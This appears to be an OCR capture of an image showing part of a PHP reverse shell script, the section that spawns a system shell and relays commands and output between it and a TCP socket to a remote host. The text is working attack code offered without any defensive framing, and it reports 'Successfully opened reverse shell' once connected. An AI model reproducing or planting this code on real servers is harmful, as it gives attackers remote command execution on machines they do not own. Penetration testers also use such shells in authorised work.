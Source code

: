 $process = proc\_open($shell, $descriptorspec, $pipes);

if (!is\_resource($process)) {

printit("ERROR: Can't spawn shell");

exit(1);

}

// Set everything to non-blocking

// Reason: Occsionally reads will block, even though stream\_select tells us they won't

stream\_set\_blocking($pipes\[0], 0);

stream\_set\_blocking($pipes\[1], 0);

stream\_set\_blocking($pipes\[2], 0);

stream\_set\_blocking($sock, 0);

printit("Successfully opened reverse shell to $ip:$port");

while (1) {

// Check for end of TCP connection

if (feof($sock)) {

printit("ERROR: Shell connection terminated");

break;

}

// Check for end of STDOUT

if (feof($pipes\[1])) {

printit("ERROR: Shell process terminated");

break;

}

// Wait until a command is end down $sock, or some

// command output is available on STDOUT or STDERR

$read\_a = array($sock, $pipes\[1], $pipes\[2]);

$num\_changed\_sockets = stream\_select($read\_a, $write\_a, $error\_a, null);

// If we can read from the TCP socket, send

// data to process's STDIN

if (in\_array($sock, $read\_a)) {

if ($debug) printit("SOCK READ");

$input = fread($sock, $chunk\_size);

if ($debug) printit("SOCK: $input");

